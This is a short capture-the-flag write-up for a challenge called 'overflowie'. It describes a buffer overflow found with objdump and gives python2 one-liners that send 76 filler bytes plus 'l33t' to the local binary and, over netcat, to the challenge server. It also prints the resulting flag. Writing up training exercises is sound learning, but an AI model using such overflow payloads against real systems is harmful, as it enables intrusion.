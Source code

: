 ## overflowie

**Flag: ctf{417e85857875cd875f23abee3d45ef6a4fa68a56e692a8c998e0d82f4f3e6ac7}**

I inspected [the file](overflowie) with objdump and I saw that I needed to do a buffer overflow.

The following payload is generated:
- 0x50 - 0x04 = 76 random bytes in order to fill the buffer;
- l33t = 0x6c333374 in order to overwrite the value of the variable which has to be equal to l33t.

```
python2 -c 'print "A" * 76 + "\x6c\x33\x33\x74\x00"' | ./overflowie
python2 -c 'print "A" * 76 + "\x6c\x33\x33\x74\x00"' | nc 34.107.86.157 32276
Enter the very secure code to get the flag: 
Omg you found the supersecret flag. You are l33t ind33d
ctf{417e85857875cd875f23abee3d45ef6a4fa68a56e692a8c998e0d82f4f3e6ac7}
```

[Back](../unbreakable.md)
